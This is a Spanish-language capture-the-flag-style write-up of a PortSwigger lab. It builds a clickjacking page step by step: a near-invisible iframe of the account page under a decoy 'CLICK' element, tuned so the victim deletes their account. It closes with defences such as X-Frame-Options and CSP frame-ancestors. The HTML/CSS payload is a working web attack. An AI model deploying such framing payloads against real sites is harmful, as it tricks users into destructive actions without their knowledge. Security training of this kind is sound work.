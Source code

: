 # Lab: Basic clickjacking with CSRF token protection

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/4ffa4b57-b5df-4487-b5ff-9dda4fa0cea9)

Nosotros sabemos que este laboratorio tiene una funcionalidad de autenticación y que tiene un botón `Delete account` el cual debemos utilizar para que el usuario víctima elimine su cuenta mediante `Clickjacking`.

Nos autenticamos con nuestras credenciales `wiener:peter` y en el dashboard del usuario nos encontramos con el botón `Delete account`:
![image](https://github.com/user-attachments/assets/509e80c1-90ae-4260-b2a0-ecfa62034389)

Entonces la idea es engañar a un usuario para que haga clic en un elemento visible que muestra la palabra `click`, mientras un botón real (`Delete account`) del sitio objetivo se encuentra oculto detrás, embebido en un iframe casi transparente y alineado perfectamente con ese texto.

Accedemos al exploit server del laboratorio, que simula un sitio web alojado por nosotros:
![image](https://github.com/user-attachments/assets/514dc04f-5e9d-4952-91dd-0f2c40cc10fd)

Si hacemos click en `View exploit` seremos capaces de ver el contenido de nuestro sitio web:
![image](https://github.com/user-attachments/assets/2de4b3bc-2917-4c59-821f-231b080acf8f)

Vamos a utilizar un `iframe`, que es un elemento HTML que permite cargar otra página web dentro del documento actual. Ya lo vimos en laboratorios anteriores: el `iframe` incrusta contenido remoto, como si fuera una ventana dentro del sitio atacante.

Vamos a ir haciendo pruebas para analizar cómo va cambiando el código y el resultado que arroja. 

Comenzamos insertando el siguiente código en nuestra página:
```html
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```
Esto genera un cuadro embebido que carga la página especificada en el atributo `src`. Podemos ver visualmente que el contenido del `iframe` corresponde al dashboard del usuario:
![image](https://github.com/user-attachments/assets/c9df01fc-50a8-44f4-8875-eb0d31100bde)

Ahora procedemos a darle estilo al `iframe`:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
</style>

<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>

```

Vemos que se agrandó el `iframe`, incluso si acercamos el mouse sobre un elemento vemos que cambia el ícono, lo que nos da la pauta de que tenemos interacción con los elementos, es decir, los botones siguen funcionando por más que sean casi transparentes:
![image](https://github.com/user-attachments/assets/ca7740a5-0311-496b-9583-cd66a5e57d82)


Ahora vamos a agregar un un elemento `<div>`:

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 100px;
    left: 100px;
    z-index: 1;
  }
</style>

<div>click</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```

Nosotros podemos ver el elemento `click`:
![image](https://github.com/user-attachments/assets/e742c0d5-1107-4742-b25d-7f712b948ce4)

La idea ahora es ir probando hasta encontrar la configuración de modo tal que el elemento `click` quede superpuesto al botón `Delete account`. Luego de varias pruebas encontramos que la configuración correcta es la siguiente:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 515px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>CLICK</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```

![image](https://github.com/user-attachments/assets/97c77e35-9026-4ac1-a168-f7ea83709db6)

Ahora procedemos a bajar la transparencia de modo que el `iframe` quede casi imperceptible:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 515px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>CLICK</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```
De modo tal que si la víctima visita esta página, verá lo siguiente:
![image](https://github.com/user-attachments/assets/edca2881-3f92-40ca-9583-0aceacf2d34b)

Aunque el texto `CLICK` se ve por encima, el `iframe` tiene un `z-index mayor`, lo que hace que el clic se registre sobre el botón `Delete account` embebido en él.

En el exploit server hacemos click en `Store` y luego en `Deliver exploit to victim` para resolver el laboratorio:
![image](https://github.com/user-attachments/assets/23d7e1cf-3634-4896-a7fc-aef7ddaaa2d1)

---

## ✅ Conclusiones

Este laboratorio demostró cómo una funcionalidad protegida con token CSRF puede seguir siendo vulnerable si no se implementan medidas contra **clickjacking**. Mediante la técnica de superposición visual (UI redressing), logramos que un usuario realice una acción sensible (eliminar su cuenta) sin darse cuenta, al hacer clic en un elemento señuelo visible que en realidad activa un botón oculto dentro de un `iframe`.

A pesar de que el botón requería una acción legítima del usuario y estaba protegido por CSRF tokens, el hecho de permitir que la página sea embebida en un `iframe` sin restricciones hizo posible la explotación.

---

## 🛡️ Recomendaciones

* Utilizar encabezados HTTP que impidan el embebido de la aplicación en iframes:

  ```http
  X-Frame-Options: DENY
  X-Frame-Options: SAMEORIGIN
  Content-Security-Policy: frame-ancestors 'none';
  ```

* Incluir una capa adicional de confirmación para acciones destructivas (por ejemplo, `¿Estás seguro de eliminar tu cuenta?`).

* Evitar confiar únicamente en CSRF tokens como medida de protección si el entorno visual del usuario puede ser manipulado.

* Revisar periódicamente la interfaz web con pruebas de clickjacking en diferentes navegadores.

---

## 📚 Lecciones aprendidas

* **Clickjacking y CSRF no se excluyen:** un token CSRF no protege contra una interacción visual engañosa.

* **La opacidad no anula la funcionalidad:** un botón dentro de un `iframe` casi invisible puede seguir siendo interactuable.

* **El navegador no es defensa suficiente:** Chrome incluye detección de transparencia en iframes, pero esta protección no es confiable ni está presente en todos los navegadores.

* **El orden de apilamiento (`z-index`) y la transparencia (`opacity`) pueden utilizarse para manipular al usuario sin ocultar elementos completamente.**

* Siempre que una aplicación permita ser embebida sin restricción, existe un riesgo real de clickjacking incluso si otras medidas están presentes.

---




